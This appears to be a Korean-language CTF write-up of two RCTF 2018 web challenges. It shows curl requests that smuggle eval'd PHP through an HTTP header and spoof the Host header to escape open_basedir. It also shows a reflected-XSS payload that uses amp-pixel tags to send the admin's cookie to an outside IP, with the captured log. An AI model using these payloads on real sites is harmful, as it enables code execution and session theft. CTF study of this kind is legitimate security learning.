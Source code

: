 ```yaml
---
layout: post
title: "RCTF 2018 Quals Writeup"
comments: true
description: "RCTF 2018 Quals Challenge writeup"
keywords: "web, open_basedir, eval, pwn"
---
```


## Introduce

뭔가 요즘 xctf 플랫폼을 많이 사용하는 것 같다.

## writeup

### - r-cursive

> LUL dat font
>
> http://r-cursive.ml

문제에 접속하면 단순히 sandbox를 생성해주는 페이지에 접속한다.~~(폰트가 정말 거지같다.)~~

```php
<?php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
?>
<style>code{font-family: Segoe Script, Brush Script MT, cursive; font-size: 1.337em;}</style>
```

action=go를 통해 sandbox페이지로 이동해보면 소스코드는 간단하다.

```php
<?php
sha1($_SERVER['REMOTE_ADDR']) === 'c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

cmd뒤에 명령어를 삽입해주면 되는데, 정규식으로 인해 쿼리는 `phpinfo();`, `print_r(scandir(getcwd()));` 와 같은 형태로 함수로만 넣을 수 있다.

하지만 이 문제는 `open_basedir`이 적용되어 있어, `/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/`,`/tmp/` 외의 디렉토리는 사용할 수 없다.

disable_functions, disable_classes를 보기위해 `phpinfo()` 를 실행시켰는데, 다른 것 또한 발견하였다.

```ini
disable_functions = system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link	
disable_clsass = GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator	
auto_prepend_file = /var/www/sandbox/init.php
open_basedir = /var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/	
Loaded Modules = ... mod_vhost_alias
```

우선 정규식을 우회하기 위해 `getallheaders()`함수를 사용했다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" 
<br />
<b>Warning</b>:  readfile(): open_basedir restriction in effect. File(../init.php) is not within the allowed path(s): (/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/) in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
<br />
<b>Warning</b>:  readfile(../init.php): failed to open stream: Operation not permitted in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/
```

이제 `open_basedir`을 우회하기 위해 header의 host를 `.r-cursive.ml` 로 변경하였고, 이로 인해 sandbox를 탈출하여 init.php를 열었고 플래그를 획득할 수 있었다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" -vv -H "Host:.r-cursive.ml"

<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
```

FLAG : RCTF{apache_mod_vhost_alias_should_be_configured_correctly}

### - AMP

> Building the future web, together.
>
> http://amp.2018.teamrois.cn
>
> 

페이지에 접속하면 steins;gate 0를 배경으로 한 페이지가 나타난다.

```html
<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="a42dd51d96f82575cfd2fe674c3bb46e"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="a42dd51d96f82575cfd2fe674c3bb46e">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>

```

Querystring에 name을 넣으라고 하니까 넣어보자.

```
http://amp.2018.teamrois.cn/?name=shpik
```

그러면 페이지에 다음과 같은 문구가 추가된다.

```html
Dear shpik:
YOU'RE BEING TRACKING
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
[STOP TRACKING ME]
```

..?  `STOP TRACKING ME` 를 누르면 뭔가 admin이 이 페이지를 읽는 것 같다.

그 외에 스크립트 또한 삽입이 잘 되는 걸로 봐서 `Reflect XSS` 인 모양이다. 

`AMP`라는 `javascript` 모듈을 사용하는 것 같아서 찾아보았고, 다음의 정보를 찾았다.([AMP Project](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md#client-id))

> #### Client ID
>
> Provides a per document-source-origin (the origin of the website where you publish your AMP doc) and user identifier. The client ID will be the same for the same user if they visit again within one year. The client ID should behave roughly similar to a cookie storing a session ID for one year. If the AMP document is not served through the Google AMP Cache, the client ID is replaced with a cookie of the name of the `cid scope` argument (see below). If it is not present, a cookie will be set with the same name. These cookies will always have the prefix "amp-" followed by a random base64 encoded string.
>
> - **platform variable**: `CLIENT_ID`
>
>   - Example: 
>
>   ```
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name)"></amp-pixel>
>   
>   <amp-user-notification
>       layout=nodisplay
>       id="user-consent"
>       data-show-if-href="https://foo.com/api/show"
>       data-dismiss-href="https://foo.com/api/dismissed">
>       This site uses cookies to personalize content.
>       <a href="">Learn more.</a>
>      <button on="tap:user-consent.dismiss">I accept</button>
>   </amp-user-notification>
>   
>   <!-- Client ID is not provided until `user-consent` is dismissed -->
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name,user-consent)"></amp-pixel>
>   ```
>
> - **amp-analytics variable**: `${clientId}`
>
>   - Example usage: `${clientId(foo)}`
>   - Example value: `U6XEpUs3yaeQyR2DKATQH1pTZ6kg140fvuLbtl5nynbUWtIodJxP5TEIYBic4qcV`

저기에 있는 `Example` 을 그냥 가져다 써도 될 것 같다.

```html
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG)"></amp-pixel>
<amp-user-notification layout=nodisplay id="FLAG" data-show-if-href="https://35.200.67.206:10101" data-dismiss-href="https://35.200.67.206:10101">This site uses cookies to personalize content.<a href="">Learn more.</a><button on="tap:user-consent.dismiss">I accept</button></amp-user-notification>
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG,FLAG)"></amp-pixel>
```

위의 코드를 name으로 넣어주었으며, FLAG를 얻을 수 있었다.

```
"GET /?cid=flag_is_in_admin_cookie HTTP/1.1" 200 -
"GET /?cid= HTTP/1.1" 200 -
"GET /?cid=RCTF%7BEl_PsY_CONGRO0_sg0%7D HTTP/1.1" 200 -
"GET /?cid= HTTP/1.1" 200 - 
```

FLAG : RCTF{El_PsY_CONGRO0_sg0}
